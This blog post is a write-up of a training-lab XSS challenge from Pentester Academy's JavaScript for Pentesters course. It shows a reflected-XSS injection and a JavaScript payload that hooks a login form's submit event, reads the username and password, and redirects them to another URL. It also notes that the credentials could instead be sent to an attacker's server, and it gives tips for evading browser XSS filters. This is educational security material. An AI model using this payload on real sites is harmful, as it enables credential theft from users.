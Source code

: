 ```yaml
---
author: AnirudhAnand
comments: true
date: 2014-10-23 07:23:22+00:00
layout: post
slug: xss-hijacking-form-submit-js-pentesters-task-3-write
title: 'XSS - Hijacking a form submit: JS for Pentesters task 3 write up'
wordpress_id: 296
categories:
- jsp
- javascript
- security-tube
- xss
summary: Pentester Academy (under Securitytube) is one of the great infosec resources for people who wanted to take their skills to the next level. JavaScript for Pentesters is one of the latest courses by pentester academy which has over 21 challenges with varying difficulty. We will be updating the blog with the write-ups of each of them as we crack it.
---
```


Lately, we have solved JS for Pentesters [task 1]({{ site.url }}/2014/10/20/modifying-html-javascript-javascript-pentesters-task-1/) and [task 2]({{ site.url }}/2014/10/21/changing-href-links-using-js-javascript-pentesters-task-2/). Now this is task 3 which is a bit more challenging task that we did before. Let us see what the challenge is:

[**JS For Pentesters Task 3**](http://pentesteracademylab.appspot.com/lab/webapp/jfp/3)

There is a simple login form which accepts a username and a password. Our objective is to Post the Username and Password to Attacker Controlled Server. It is also given that the form is vulnerable to XSS attacks via the URL parameter. As always, lets start Pentesting the form with first trying out an alert box to confirm that it is vulnerable to reflected XSS attacks. So lets us try to inject an alert box in to url parameter.
{% highlight html lineos %}
    <script>alert("XSS")</script>
{% endhighlight %}

So after injecting, the URL looks something like this:

`http://pentesteracademylab.appspot.com/lab/webapp/jfp/3?url=<script>alert("XSS")</script>`

If you execute that URL, you can see an alert box which means we are on the right track. The next thing is see how can we post this to attacker server when the user clicks on **Signin**. The best way to do that is to use an **onsubmit **event handler in JavaScript. Theoretically what we should do is that after entering the username and the password, the user will click signin and at that time, our event handler should execute and post the content to a server that we control so that we can see the username/password combination in plain text.

In this task either you can run your own HTTP server which can capture the username/pass or you can redirect the user to another site and try to login with the same credentials that user enters (that can be fun I guess :)  ). So the first thing to do is to add an event handler to the onsubmit button. When you take a peek at the source code of the challenge, you can see that there is only 1 form present in the source (which makes our tasks much easier)

So first what we will do is to select the form and add an onsubmit event handler and make it execute a function which copy the credentials entered by the user and will post it to the attacker server (or any link we want). So the payload looks like this:
{% highlight html lineos %}
    <script>
    function intercept() {
    var user = document.forms[0].elements[0].value;
    var pass = document.forms[0].elements[1].value;
    window.location.replace("http://pentesteracademylab.appspot.com/lab/webapp/1?email=" + user + "&password=" + pass);
    return false;
    }
    document.forms[0].onsubmit = intercept;
    </script>
{% endhighlight%}
		 

Lets see how it works. It will select the form we need with **document.forms[0] **and will add an onsubmit event to it which will trigger a function called intercept when submit action takes place. Inside the **intercept** function, we are saving the username:password that user entered to 2 new variables namely user:pass by accessing form elements. Then I used the **window.location.replace **which works like an HTTP redirect will actually redirect the user to a new page with the credentials entered by the user.

In above payload, I am redirecting user to [Pentester Academy WAP challenge 1: Form Bruteforce](http://pentesteracademylab.appspot.com/lab/webapp/1) link and will submit the username:password to it. As you can see from my write about the same [WAP Challenge,](#) you can know that the username:password  combination for WAP challenge 1 is `admin@pentesteracademy.com:zzzxy`. After injecting the above payload into the task 3 via URL parameter, if you enter the credentials as `admin@pentesteracademy.com:zzzxy`, it will redirect you to WAP challenge 1 success web page and shows that challenge has been successfully completed.

**Note:**

1) I did the above redirection just for a fun part. You can modify the payload so that the user entered credentials could be saved to your server.

2) You have to [URL encode](http://meyerweb.com/eric/tools/dencoder/) the payload before the injection via the url parameter or else this will fail to work (I spend a huge time figuring out why the payload is not working, the reason was I was not encoding before injecting it)

3) It is always recommended to try out the challenge in Mozilla FireFox and not in Google chrome because chrome has an inbuilt XSS Auditor which will stop the payload from executing.

4) The solutions written above is the way we cracked the problem which might be different from the solution videos provided by the SecurityTube. If you need the solution video, you have to subscribe to [**PentesterAcademy**](http://pentesteracademy.com/).
